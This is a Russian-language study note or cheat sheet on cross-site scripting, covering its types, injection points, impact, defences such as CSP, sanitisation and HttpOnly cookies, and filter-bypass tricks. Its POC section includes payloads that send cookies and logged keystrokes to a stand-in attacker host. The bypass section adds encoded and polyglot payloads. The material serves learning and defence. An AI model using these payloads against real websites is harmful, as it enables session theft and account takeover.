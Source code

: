 ### **XSS(client/server)**

* **Описание**
XSS, или Cross-Site Scripting, — межсайтовый скриптинг. Уязвимость, при которой злоумышленник внедряет вредоносный код в веб-приложение. Код выполняется в браузере пользователя и совершает злонамеренные действия.

Клиентская уязвимость. Возникает, когда данные пользователя попадают на веб-страницу без должной проверки и экранирования — например, строка поиска, никнейм, параметры запроса. Это позволяет злоумышленнику внедрить вредоносный JavaScript-код, который выполнится в браузере пользователя.

Stored XSS — сохранённый XSS. Уязвимость, при которой подконтрольные пользователю данные сохраняются на сервере и позже появляются на веб-страницах.

* **Виды**
* Отраженный XSS(Reflected) - Отраженный XSS происходит, когда данные, предоставленные пользователем в HTTP-запросе, включаются в источник веб-страницы без какой-либо проверки.
    Параметры запроса — search.
    Заголовки запроса
    Название прикрепляемых файлов.
    Содержимое прикрепляемых файлов, если оно попадает на страницу.
    Параметры в строке запроса URL-адреса
    URL-путь к файлу
    Иногда HTTP-заголовки (хотя на практике это маловероятно)

* Сохраненный XSS(Stored) - Как следует из названия, полезные данные XSS хранятся в веб-приложении (например, в базе данных), а затем запускаются, когда другие пользователи посещают сайт или веб-страницу.
    Комментарии в блоге
    Информация профиля пользователя
    Списки веб-сайтов
    Ф. И. О., никнейм, место жительства, город, страна;
    информация о себе, статус в соцсети;
    сообщения в чате, комментарий к блогу, отзыв на товары и услуги.

* DOM XSS(DOM)

* Слепой XSS(Blind)

* **Точки входа**
    Между HTML-тегами: <title>any_code; YOUR_DATA; any_code</title>.
    В HTML-атрибутах: <a any_attribute="any_data YOUR_DATA"></a>.
    Между JavaScript-тегами: <script>any_code; YOUR_DATA; any_code</script>.
    Внутри JavaScript-строки: <script>a = "some"; b="some1 YOUR_DATA"</script>.
    Параметры запроса — search.
    Заголовки запроса
    Название прикрепляемых файлов.
    Содержимое прикрепляемых файлов, если оно попадает на страницу.

* **POC**
<script>alert('XSS');</script>
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );</script>

* **Профит**
- Выполнить любое действие в приложении, которое может выполнять пользователь.
- Просмотреть любую информацию, к которой у пользователя есть доступ.
- Изменить любую информацию, которую пользователь может изменять.
- Взаимодействовать с другими пользователями приложения, включая вредоносные атаки. Причём атаки будут выглядеть так, как будто их выполняет пользователь-жертва.
- Украсть авторизационные данные пользователя, такие как куки-файлы или JWT-токены, а затем успешно захватить аккаунт жертвы.

* **Защита**
*	 Санитизация — удаление небезопасных символов из пользовательского ввода.
*        Энкодинг — процесс преобразования данных из одного формата в другой.
*        Белый список — список разрешённых для ввода тегов и атрибутов.
*        Валидация — оценка данных пользовательского ввода на соответствие контексту.

*	Защита от DOM XSS. 
Trusted Types - Trusted Types — директива, разработанная командой Google Chrome для предотвращения XSS-уязвимостей. Это API, которое следит за типом данных в HTML-разметке и сценариях веб-страниц. Она помогает разработчикам контролировать, откуда и как данные могут попасть в веб-страницу. 
Sanitizer API — решение от Mozilla. Однако оно доступно только в браузерах Google Chrome и Mozilla Firefox. 

*	Методы митигации последствий XSS

Для защиты пользователя используется комплекс мер, который называется митигацией. 
Митигация — действия, направленные на смягчение последствий уязвимости, то есть снижение уровня опасности.
Например, если установить параметр HttpOnly для куки-файлов, то злоумышленник не сможет получить доступ к куки из JavaScript. Доступ хакера к JavaScript — это признак XSS-атаки. Однако хакер не получит куки пользователя — их там нет. 

[Для митигации XSS-атак разработчики настраивают:]

*    Параметры куки.
*    Security Headers — HTTP-заголовки безопасности .
*    Content Security Policy — политику безопасности контента.

*    Использовать экранирование, валидацию и санитизацию пользовательского ввода как на серверной, так и на клиентской части. Лучше использовать популярные библиотеки, например DOMPurify.
*    Использовать Content Security Policy — CSP.
*    Не использовать устаревшие или уязвимые к XSS библиотеки и фреймворки.
*    Не использовать небезопасные функции совместно с необработанным пользовательским вводом, такие как eval(), document.write() и другие.
*    Использовать современные фреймворки со встроенной защитой от XSS, такие как React, Vue.js, и Spring. В них безопасность реализована по умолчанию.
    
Более подробно в файле XSS!!!

* **Обход защиты**

* Методы обхода защиты от внедрения Reflected XSS 

    Дублирование тегов — <script><script> или <scr<script>ipt>.
    Использование строчных и прописных букв в нагрузке — <ScRIpt>alert(1)</SCRIPt>.
    Использование   вместо ( ) — <script>alert1</script>.
    Использование различных кодировок нагрузки — Unicode, HTML, URL, Base64, HEX.
    Использование двойного кодирования нагрузки — вместо %3Cscript%3Ealert%281%29%3C%2Fscript%3E используется %253Cscript%253Ealert%25281%2529%253C%252Fscript%253E.
    Использование Polyglot — javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>.


